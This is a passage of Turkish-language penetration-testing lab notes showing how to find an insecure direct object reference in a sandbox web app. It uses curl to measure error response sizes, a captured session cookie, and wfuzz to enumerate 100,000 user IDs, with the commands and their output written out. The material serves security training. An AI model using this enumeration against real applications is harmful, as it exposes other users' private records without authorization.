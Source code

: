 Aşağıda, `-s` argümanı curl’un ilerleme çubuğunu göstermemesini sağlar, çünkü yalnızca yanıt boyutuyla ilgileniyoruz. Son olarak, `-w '%{size_download}'` argümanıyla curl’dan yanıt boyutunu terminal çıktısında yazdırmasını istiyoruz.

```bash
kali@kali:~$ curl -s http://idor-sandbox:80/user/?uid=62718 -w '%{size_download}'
0
```

Listing 4 - Hatalı Yanıt Boyutlarının Toplanması

Çıktımız 0 bayt olarak döndü. Bunun sebebi, curl isteğini yaparken geçerli bir oturum ID’si belirtmememizdir. Web uygulaması testlerinde, doğru sonuçlar alabilmek için hem kimlik doğrulamasız hem de kimlik doğrulamalı fuzzing yapmamız gerekebilir. Bu da wfuzz komutumuza geçerli bir oturum ID’si eklememiz gerektiği anlamına gelir.

Bu oturum ID’sini almak için Burp Suite’te Intercept’i etkinleştirip, /user/login.php giriş URI’sinden Harb kullanıcısı ile kimlik doğrulaması yapılmış bir isteği yakalamamız gerekiyor.

![Pasted image 20250523001220.png](/img/user/resimler/Pasted%20image%2020250523001220.png)

Yukarıdaki isteği yakaladığımızda bize bir cookie değeri sağlanır. Bu sefer curl’u bu session ID ile kullanarak, kimlik doğrulamalı perspektiften hatalı (erroneous) yanıt boyutunu almaya çalışabiliriz.

Lütfen unutmayın, session ID her seferinde farklı olacaktır ve dikkatle incelenmelidir.

Sonraki curl komutu öncekinden sadece biraz farklıdır.  
Kimlik doğrulamalı bir istek yapmak için `--header` argümanını ekleyeceğiz ve ayrıca bilinen bir hatalı yanıt boyutunu almak için rastgele bir UID değeri olarak “91191” kullanacağız.

```bash
kali@kali:~$ curl -s /dev/null http://idor-sandbox:80/user/?uid=91191 -w '%{size_download}' --header "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64"
2873
```

Listing 5 - Oturum ID’si ile Hatalı Yanıt Boyutlarının Toplanması

Oturum açılmış bir kullanıcı için hatalı yanıt boyutu 2873 bayttır. Gelecek fuzzing denemelerimizde bu değeri dışlayacağız.

Fuzzing işlemine başlayalım. Wfuzz’ta `-c` argümanı renkli çıktı almak için kullanılır. `-z` argümanı ise giriş yöntemimizi belirtir; burada dosya (file) ve ardından kelime listemiz verilir.  
`--hc 404` argümanıyla 404 yanıtlarını dışlayacağız.  
`--hh 2873` ile ise hatalı yanıt boyutu olan 2873 baytı dışlayacağız.

Son olarak, daha önce yakaladığımız cookie değerini içeren header’ı `-H` ile vereceğiz. Fuzzing endpoint’imiz:  
`http://idor-sandbox:80/user/?uid=FUZZ`

```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 --hh 2873 -H "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64" http://idor-sandbox:80/user/?uid=FUZZ
```

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://idor-sandbox:80/user/?uid=FUZZ
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000011112:   200        76 L     174 W      2859 Ch     "11111"
000016328:   200        76 L     174 W      2860 Ch     "16327"
000023102:   200        76 L     174 W      2874 Ch     "23101"
```